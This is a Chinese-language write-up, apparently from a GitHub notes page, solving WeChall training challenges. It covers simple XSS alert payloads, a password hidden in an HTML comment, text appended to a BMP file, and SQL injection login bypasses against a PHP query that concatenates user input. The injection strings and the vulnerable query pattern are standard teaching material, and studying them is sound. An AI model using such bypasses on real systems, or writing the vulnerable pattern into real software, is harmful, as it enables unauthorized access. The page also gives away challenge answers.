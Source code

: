 ```html
<script>alert(\xss)</script>
```

通过 img 标签的错误事件（随便请求一张图片）注入js事件

```html
<img src=x onerror=alert(xss)> 
```

## We Chall

[WeChall](https://www.wechall.net/)

### Training

#### Training: Get Sourced

`F12`查看`HTML`源码，答案写在注释里，藏在`body`的右下方

~~~html
<!-- Now this is a comment! -->
<!-- You are looking for this password: html_sourcecode -->       
</body></html>
~~~

#### Training: Stegano Ⅰ

通过`html`代码找到图片源下载，得到`btegano1.bmp`，直接用记事本或者`notepad++`打开，或修改后缀为`.txt`打开，可得到答案

~~~
BMf       6   (               0                   Look what the hex-edit revealed: passwd:steganoI
~~~

可以用`notepad++`等编辑器打开`bmp`文件，在末尾加入文字信息（若用记事本直接修改将损坏文件）

### SQL

#### Training: MySQL Ⅰ

查看后端源码发现登录的`SQL`语句是这么写的，同时发现了管理员用户名`admin`

~~~php
$query = "SELECT * FROM users WHERE username='$username' AND password='$password'";
~~~

可以在传入用户名时动手脚

1、传入`admin'#`，这样`sql`语句的字符串将变成

~~~
"select * from users where username='admin''#..."
~~~

于是验证密码的部分被替换为`sql`注释，因为`admin`存在，返回一定为真

2、传入`admin' or '1`

~~~sql
select * from users where username='admin' or '1' and password='$password'
~~~
